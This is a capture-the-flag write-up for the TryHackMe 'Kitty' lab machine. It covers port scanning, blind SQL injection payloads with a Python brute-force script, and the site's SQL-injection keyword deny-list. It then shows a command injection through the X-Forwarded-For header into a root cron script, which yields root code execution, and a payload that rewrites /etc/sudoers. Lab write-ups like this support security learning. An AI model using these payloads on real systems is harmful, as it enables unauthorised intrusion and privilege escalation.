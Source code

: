 ![](https://tryhackme-images.s3.amazonaws.com/room-icons/4fda99da293ec0bc477a4b9e456e55e1.png)

---
# Nmap Scan:

```Bash
$ scan 10.10.165.50
--------------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0c569e6dd6b810cda32be41e35b9787 (RSA)
|   256 6c65ad87087a3e4c7dea3a30764d0416 (ECDSA)
|_  256 2d571d56f6565229eaaada33b2772c9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
--------------------------------------------------------------------
```

---
# Port 80:

```bash
$ feroxbuster -u http://10.10.165.50 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
--------------------------------------------------------------------
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       36l       76w     1081c http://10.10.165.50/index.php
200      GET       42l      104w     1567c http://10.10.165.50/register.php
200      GET       36l       76w     1081c http://10.10.165.50/
302      GET        0l        0w        0c http://10.10.165.50/welcome.php => index.php
302      GET        0l        0w        0c http://10.10.165.50/logout.php => index.php
200      GET        1l        0w        1c http://10.10.165.50/config.php
--------------------------------------------------------------------
```

index.php: Simple Login Page
config.php: nothing interesting

---

# SQL injection

On the login page the username parameter seems to be vulnerable to SQL injection.

After injecting the following payload: 

```mysql
' OR 1=1;-- -
```

the page gives us this error: SQL Injection detected. This incident will be logged!

So playing around a bit i found a working UNION payload.

```mysql
' UNION SELECT 0,0,0,0;-- -
```

Now we can craft a payload based on this to get the database name.

```sql
' UNION SELECT 0,0,0,0 WHERE Database() like BINARY '%';-- -
```

Everything we put before the `%` will get checked if theres a database starting with a given character. 
Lets take the letter  `A`  for example.
If the database name starts with an `A` we can successfully log in.

 ```' UNION SELECT 0,0,0,0 WHERE Database() like BINARY 'A%';-- -```

If not we get in this case the error "Invalid username or password"

We can do this manually by going through each letter and digit possible, but its going to be a pain in the ass. That's why I wrote a script in python to automate the process

```python
import requests
import string

chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + "-_+\{\}[]()/*.,"
url = "http://10.10.88.131/index.php"

result = ''

while True:
	for char in chars:
		query = <PAYLOAD>
		data = {
		'username': query,
		'password': 'blabla'
		}
		
	r = requests.post(url, data=data, allow_redirects=True)
	if "Invalid username or password" in r.text:
		continue
	else:
		result += char
		print(result)
		break
```

---
# Foothold

To get the table and columns names we need to change the payload based on the results we get.

```sql
' UNION SELECT 0,0,0,0 FROM information_schema.tables WHERE table_schema = '<table name>' AND table_name LIKE BINARY '%';-- -
```

```sql
' UNION SELECT 0,0,0,0 FROM information_schema.columns WHERE table_schema = '<table name>' AND table_name = '<column name>' AND column_name LIKE BINARY '%';-- -
```

And to retrieve the password or username:

```sql
' UNION SELECT 0,0,0,0 FROM <table name> WHERE <column name> LIKE '%';-- -
```

Please Note that `BINARY` needs to be in the payload, since the password is case sensitive.

After getting the username and password from enumerating the database we can log in with **SSH**. 

Running `pspy` shows us an interesting script on `/opt`

```bash
2024/02/09 03:32:01 CMD: UID=0     PID=2476   | /usr/bin/bash /opt/log_checker.sh
```

```bash
kitty@kitty:~$ cat /opt/log_checker.sh
--------------------------------------
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

Most of the times when theres something in the `/opt` directory, you might be able to escalate privileges from there. Unfortunately, we don't know how we can abuse this yet because we can only read the file.

This script appears to be reading each line from the file located at `/var/www/development/logged`, appending each line to a file named `logged` located in the `/root` directory, and then clearing the contents of the original file.

So lets see what we can find in `/var/www/development/`

It seems like theres not really much of a difference. Both `development` and `html` directories have the same files but do they contain the same?

```bash
kitty@kitty:~$ diff /var/www/development/ /var/www/html/
diff /var/www/development/index.php /var/www/html/index.php
19,21d18
< 		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
< 		$ip .= "\n";
< 		file_put_contents("/var/www/development/logged", $ip);
24,27c21
< 		echo 'SQL Injection detected. This incident will be logged!';
< 		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
< 		$ip .= "\n";
< 		file_put_contents("/var/www/development/logged", $ip);
---
> 		echo 'SQL Injection detected. This incident will be logged!';
67c61
<         <h2>Development User Login</h2>
---
>         <h2>User Login</h2>
```

The only relevant change here is in `development/index.php` heres the script:

```php
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
	if (preg_match( $evilword, $username )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	} elseif (preg_match( $evilword, $password )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	}
}
```

--- 
# Privilege Escalation

Each time a SQL injection is detected it gets logged with the `X-Forwarded-For` header into `/var/www/development/logged` and remember the `log_checker.sh` script which reads each line from `logged` and puts it into `/root/logged`? Well now we can abuse this since everything we put as the value of the `X-Forwarded-For` header,  gets written. Lets test this 

```bash
curl 127.0.0.1:8080 -d "username=aaa' or 1=1-- -&password=aaa" -H "X-Forwarded-For: test"
```

It works!

```bash
kitty@kitty:/var/www/development$ cat logged
test
```

Now we just play around a bit until we can inject a command. To test this im going to append the output of id into a file located in a directory we can read. I chose here kitty's home directory.

```bash
curl 127.0.0.1:8080 -d "username=aaa' or 1=1-- -&password=aaa" -H "X-Forwarded-For: id | bash > /home/kitty/out.txt #"
```

```bash
kitty@kitty:~$ cat out.txt
uid=0(root) gid=0(root) groups=0(root)
```

Bingo! we got RCE as root.  This next step is completely optional. You could just inject a reverse shell, but I wanted to be a bit extra by editing the `sudoers` file.

```bash
curl 127.0.0.1:8080 -d "username=aaa' or 1=1-- -&password=aaa" -H "X-Forwarded-For: \$(echo 'kitty ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers)"
```

Now lets run `sudo -l`

```
kitty@kitty:/var/www/development$ sudo -l
Matching Defaults entries for kitty on kitty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kitty may run the following commands on kitty:
    (ALL : ALL) NOPASSWD: ALL
-----------------------------------------------
kitty@kitty:/var/www/development$ sudo su
root@kitty:/var/www/development# cat /root/root.txt
THM{...}
```

# End
